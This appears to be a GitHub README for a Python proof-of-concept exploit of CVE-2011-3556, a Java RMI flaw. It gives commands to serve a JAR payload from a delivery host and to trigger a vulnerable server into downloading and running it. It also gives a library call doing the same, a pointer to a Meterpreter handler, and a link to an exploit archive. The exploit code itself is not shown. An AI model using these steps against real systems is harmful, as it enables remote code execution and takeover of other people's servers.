 INFO
----

    # CVE-2011-3556 — Proof of Concept (PoC)

    ## Disclaimer

    This tool is a Python 3 implementation of an existing [proof of concept (PoC)](https://www.exploit-db.com/raw/17535) made by mihi for the [Metasploit Framework](https://www.metasploit.com/).

    ## Prerequisites

    To use the module, simply follow the instructions below:

    ```sh
    # Clone this repository locally.
    $ git clone https://github.com/sk4la/cve_2011_3556.git && cd cve_2011_3556/

    # Optionally set the `x` bit to be able to execute the script directly.
    $ chmod u+x exploit.py

    $ ./exploit.py --help && echo "It works!"
    ```

    ## Usage

    ### Command-line

    To be remotely loaded by the vulnerable Java RMI server, the payload (a JAR binary) must be served as an HTTP resource. One could quickly serve it using the famous `python3 -m http.server`.

    Once the payload is made available for download, simply execute the `exploit.py` script to trigger the vulnerability.

    ```sh
    $ python3 -m http.server --bind DELIVERY_HOST DELIVERY_PORT &
    $ ./exploit.py -h VULNERABLE_HOST -u http://DELIVERY_HOST:DELIVERY_PORT/PAYLOAD.jar`
    ```

    > In case the payload is a Meterpreter (Metasploit Framework), do not forget to `use exploit/multi/handler`.

    ### Library

    This module can also be used as a library by importing the `cve_2011_3556` module to your current namespace:

    ```python
    from cve_2011_3556 import JavaRMIExploit

    JavaRMIExploit("127.0.0.1", "http://127.0.0.1/payload.jar").exploit()
    ```

    It's as simple as that!

    ## Credits

    Special thanks to mihi for the initial implementation of the Metasploit Framework [module](https://www.exploit-db.com/raw/17535).

EXP
---

<https://github.com/JustYoomoon/Exploit/blob/main/cve-2011-3556.zip>